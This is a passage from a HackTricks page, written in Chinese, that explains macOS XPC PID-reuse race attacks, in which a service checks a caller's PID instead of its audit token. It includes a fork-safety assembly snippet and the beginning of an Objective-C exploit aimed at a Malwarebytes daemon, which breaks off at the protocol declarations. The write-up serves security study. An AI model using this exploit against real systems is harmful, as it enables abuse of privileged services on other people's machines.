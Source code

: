 # macOS PID Reuse

<details><summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary></details>

## PID 重用

当 macOS **XPC 服务**基于 **PID** 而不是 **审计令牌** 来检查调用进程时，就容易受到 PID 重用攻击的影响。这种攻击基于 **竞争条件**，其中一个 **利用程序**将会 **向 XPC 服务发送消息**，**滥用**功能，然后立即执行 **`posix_spawn(NULL, target_binary, NULL, &attr, target_argv, environ)`** 与 **允许的** 二进制文件。

这个函数将使 **允许的二进制文件拥有 PID**，但 **恶意 XPC 消息** 将在此之前发送。因此，如果 **XPC** 服务在执行 **`posix_spawn`** 后使用 **PID** 进行 **身份验证** 并在 **检查之后**，它会认为消息来自一个 **授权的** 进程。

### 攻击示例

如果您发现函数 **`shouldAcceptNewConnection`** 或其调用的函数调用了 **`processIdentifier`** 而没有调用 **`auditToken`**。这很可能意味着它正在**验证进程 PID** 而不是审计令牌。\
例如，如下图所示（摘自参考资料）：

<figure><img src="../../../../../../.gitbook/assets/image (303).png" alt="https://wojciechregula.blog/images/2020/04/pid.png"><figcaption></figcaption></figure>

检查此示例攻击（同样摘自参考资料）以查看攻击的两个部分：

* 一个**生成多个 fork**
* **每个 fork** 将在发送消息后立即执行 **`posix_spawn`** 向 XPC 服务发送 **有效载荷**。

{% hint style="danger" %}
为了使攻击生效，重要的是 ` export`` `` `**`OBJC_DISABLE_INITIALIZE_FORK_SAFETY=YES`** 或将其放入攻击中：

```objectivec
asm(".section __DATA,__objc_fork_ok\n"
"empty:\n"
".no_dead_strip empty\n");
```
{% endhint %}

第一种选项是使用\*\*`NSTasks`\*\*和参数来启动子进程以利用RC

```objectivec
// Code from https://wojciechregula.blog/post/learn-xpc-exploitation-part-2-say-no-to-the-pid/
// gcc -framework Foundation expl.m -o expl

#import <Foundation/Foundation.h>
#include <spawn.h>
#include <sys/stat.h>

#define RACE_COUNT 32
#define MACH_SERVICE @"com.malwarebytes.mbam.rtprotection.daemon"
#define BINARY "/Library/Application Support/Malwarebytes/MBAM/Engine.bundle/Contents/PlugIns/RTProtectionDaemon.app/Contents/MacOS/RTProtectionDaemon"

// allow fork() between exec()
asm(".section __DATA,__objc_fork_ok\n"
"empty:\n"
".no_dead_strip empty\n");

extern char **environ;

// defining necessary protocols
@protocol ProtectionService
- (void)startDatabaseUpdate;
- (void)restoreApplicationLauncherWithCompletion:(void (^)(BOOL))arg1;
- (void)uninstallProduct;
- (void)installProductUpdate;
- (void)startProductUpdateWith:(NSUUID *)arg1 forceInstall:(BOOL)arg2;
```